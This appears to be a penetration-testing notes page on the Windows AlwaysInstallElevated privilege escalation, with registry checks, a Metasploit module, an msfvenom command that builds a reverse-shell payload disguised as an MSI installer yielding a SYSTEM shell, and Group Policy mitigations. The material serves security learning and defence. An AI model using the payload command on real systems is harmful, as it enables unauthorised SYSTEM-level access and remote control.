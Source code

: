# Always Install Elevated

Always Install Elevated is a registry / GPO setting that allows non privileged accounts to install Windows Package Installer (MSI) files with SYSTEM permissions. Usually this is used in environments to reduce workload for Helpdesk staff for when users require software to be installed.

Command to query registry keys:

```bash
# Value 0x1 represents AlwaysInstallElevated as being enabled.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](<../../../../.gitbook/assets/image (1743).png>)

WinPEAS can also be used to show this setting as being enabled.

![](<../../../../.gitbook/assets/image (1742).png>)

## Exploitation

### Metasploit

Metasploit can be used to abuse this privilege.

```bash
use exploit/windows/local/always_install_elevated
```

![](<../../../../.gitbook/assets/image (1740) (1).png>)

### Manual - msfvenom

msfvenom can be used to create a reverse shell disguised as a MSI file. When the file is executed / installed a reverse shell as SYSTEM will be executed.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f msi -o Application.msi
```

Manual install of the MSI file:

![Manual MSI Install](<../../../../.gitbook/assets/MSI PrivEsc.png>)

Which returns a SYSTEM shell as shown below.

![](<../../../../.gitbook/assets/image (1741).png>)

## Mitigations

Ensure that the following Group Policy Objects are set to disabled:

* Computer Configuration\Administrative Templates\Windows Components\Windows Installer
* User Configuration\Administrative Templates\Windows Components\Windows Installer

![](<../../../../.gitbook/assets/MSI GPO.png>)
